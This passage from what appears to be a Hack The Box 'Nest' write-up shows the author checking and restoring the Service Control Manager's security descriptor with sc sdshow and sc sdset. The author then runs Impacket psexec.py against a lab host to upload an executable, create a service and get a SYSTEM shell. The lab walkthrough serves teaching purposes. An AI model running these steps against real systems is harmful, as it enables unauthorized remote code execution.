 It can't open the Service Control Manager.

#### svcmanager Permissions

I'll check the Service Control Manager permissions, just like before:



    C:\>sc sdshow scmanager

    D:(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)



I'll compare what's different (spaces added by me to get things to line
up):



    orig:    D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)
    patched: D:            (A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)



`(A;;KA;;;AU)` has been removed.

### Complete Unpatch

I'll set the `scmanager` SDDL string back to add back in the `KA` for
authenticated users:



    C:\>sc sdset scmanager "D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)"
    [SC] SetServiceObjectSecurity SUCCESS



Now I can `psexec.py` again:



    root@kali# psexec.py 'tempuser:***********@10.10.10.178'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.178.....
    [-] share 'ADMIN$' is not writable.
    [-] share 'C$' is not writable.
    [-] share 'Data' is not writable.
    [-] share 'Secure$' is not writable.
    [*] Found writable share Users
    [*] Uploading file hEiGiDkm.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service rrYY on 10.10.10.178.....
    [*] Starting service rrYY.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>




[« HTB: Nest](/htb-nest.md)






